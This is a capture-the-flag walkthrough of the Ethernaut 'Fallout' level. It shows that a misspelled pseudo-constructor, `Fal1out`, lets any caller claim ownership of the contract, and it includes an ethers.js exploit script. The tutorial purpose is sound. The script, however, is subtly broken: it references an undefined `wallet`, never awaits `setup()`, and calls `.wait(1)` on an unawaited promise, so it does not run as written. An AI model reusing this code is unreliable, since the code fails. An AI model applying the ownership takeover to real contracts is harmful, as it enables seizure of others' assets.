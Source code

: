 ```yaml
---
description: In Ethernaut's Fallout, we learn a quick lesson about constructor syntax.
---
```


# 2 - Fallout

To complete [this level](https://ethernaut.openzeppelin.com/level/0x5732B2F88cbd19B6f01E3a96e9f0D90B917281E5) we need to claim ownership of its `Fallout` contract.

### Hints

<details>

<summary>Hint One</summary>

The only function in the contract that assigns a value to `owner` is its "constructor", `Fal1out`. Is this function really what it seems?&#x20;

</details>

### Full Walkthrough

#### Claiming Ownership

The `owner` of this contract is set in its "constructor" function `Fal1out` and not reassigned elsewhere in the contract. Note that despite being labelled the constructor in the comment above, this function is not actually the valid constructor for this contract and will not run when it is deployed. If it were a valid constructor, there would be no way for us to take ownership of the contract after it was deployed by another address.

```solidity
/* constructor */
function Fal1out() public payable {
  owner = msg.sender;
  allocations[owner] = msg.value;
}
```

In some versions of Solidity prior to 0.4.21, a constructor could be defined by naming a function the same name as its contract. This contract, however, is being compiled as version 0.6.0 or higher, and therefor this "constructor" will not run when the contract is deployed.

```solidity
pragma solidity ^0.6.0;
```

Additionally, it is worth noting that the function name does not actually match the contract's name as the function's second "l" is actually the number 1.

Any address that calls the `Fal1out` function will become the contract's owner.

{% hint style="info" %}
**Transactions and calldata**

Coming soon...
{% endhint %}

### Scripted Solution

```javascript
const ethers = require('ethers')
const fs = require('fs')
require('dotenv').config({ path: './.env' })

/**
 * Initialize Ethers objects needed to interact with the blockchain and contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create player wallet
  const playerWallet = new ethers.Wallet(process.env.PRIVATE_KEY)
  // Create player wallet signer - an abstraction of an Ethereum account
  const playerWalletSigner = await wallet.connect(provider)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  const contract = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerWalletSigner
  )

  return { provider, playerWallet, playerWalletSigner, contract }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get Ethers objects needed to interact with the blockchain and contract
  const { playerWallet, contract: falloutContract } = setup('Fallout')

  // Check Fallout contract's owner
  console.log(
    `Fallout contract owner is initially: ${await falloutContract.owner()}`
  )

  // Call Fallout contract's 'Fal1out' function
  console.log("Calling Fallout contract's 'Fal1out' function...")
  await falloutContract.Fal1out().wait(1)

  // Check Fallout contract's new owner
  const falloutContractOwner = await falloutContract.owner()
  console.log(`Contract owner is now: ${falloutContractOwner}`)
  console.log(
    `Contract owner is player: ${falloutContractOwner === playerWallet.address}`
  )
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```

### Key Takeaways

* Some older versions of Solidity allowed for **constructors** to be defined as functions with the **same name as the contract** itself.
* Even a single, simple **syntax error** can become a **security disaster**.

